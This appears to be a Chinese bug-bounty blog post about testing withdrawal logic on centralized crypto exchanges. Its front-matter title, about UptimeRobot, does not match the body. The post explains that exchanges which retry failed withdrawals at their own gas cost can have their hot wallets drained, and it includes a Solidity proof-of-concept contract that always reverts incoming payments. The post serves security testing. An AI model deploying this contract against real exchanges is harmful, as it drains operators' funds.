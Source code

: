 ```yaml
---
title: "uptimerobot网站可用性监测平台"
date: 2023-06-29T0:18:30-04:00
categories:
  - blog
tags:
  - BugBounty
---
```


## 中心化交易所提现测试-Gas消耗测试

在测试提现功能的时候，需要留意下如果提现失败的场景，用户是否需要继续重新支付Gas Fee，如果需要重新支付Gas Fee的情况，那就没问题；如果是无需用户重新支付Gas Fee的情况就需要注意了，之前在挖掘漏洞的过程中就遇到过类似的情况，提现的时候只收了一次Gas Fee，提现的交易被合约回退了以后，交易所还会继续尝试提现（此时Gas Fee由交易所自己出），这种设计可能会导致热钱包资金被耗尽。

Poc:
```
pragma solidity ^0.8.0;


contract Burn{
    address private owner ;
    constructor() payable{
        owner = msg.sender;
    }


    function transferEth(address payable _addr,uint256 _value) external payable{
        require(owner == msg.sender,"!owner!");
        _addr.transfer(_value);
    }


    fallback() payable external{
        revert();
    }
    receive() payable external {
        revert();                          
    }
}

```
